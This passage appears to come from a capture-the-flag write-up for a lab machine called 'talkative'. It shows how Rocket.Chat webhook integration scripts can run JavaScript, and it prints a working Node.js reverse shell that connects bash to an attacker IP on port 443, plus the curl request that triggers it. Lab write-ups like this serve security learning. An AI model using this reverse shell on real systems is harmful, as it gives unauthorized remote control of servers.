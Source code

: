 <figure><img src="../../../.gitbook/assets/image (53) (1) (3).png" alt=""><figcaption></figcaption></figure>

Reading the documentation for Rocket Chat, it appears that this runs Javascript code!

{% embed url="https://docs.rocket.chat/use-rocket.chat/workspace-administration/integrations" %}

We can grab a quick node.js reverse shell and slap it in there.&#x20;

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.13", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

After renaming the post and which channel to put it at (use #general), there's a `curl` command generated at the bottom.

```bash
curl -X POST -H 'Content-Type: application/json' --data '{"text":"Example message","attachments":[{"title":"Rocket.Chat","title_link":"https://rocket.chat","text":"Rocket.Chat, the best open source chat","image_url":"/images/integration-attachment-example.png","color":"#764FA5"}]}' http://talkative.htb:3000/hooks/Csc8cKYTF7unv6NMQ/jqsXqgirwnZxXF7BLb4ooc3CYpKp8tbfmM5DA55tCL9vWjwb
```

Afterwards, we would catch a reverse shell on our listener port:

<figure><img src="../../../.gitbook/assets/image (63) (3) (1).png" alt=""><figcaption></figcaption></figure>
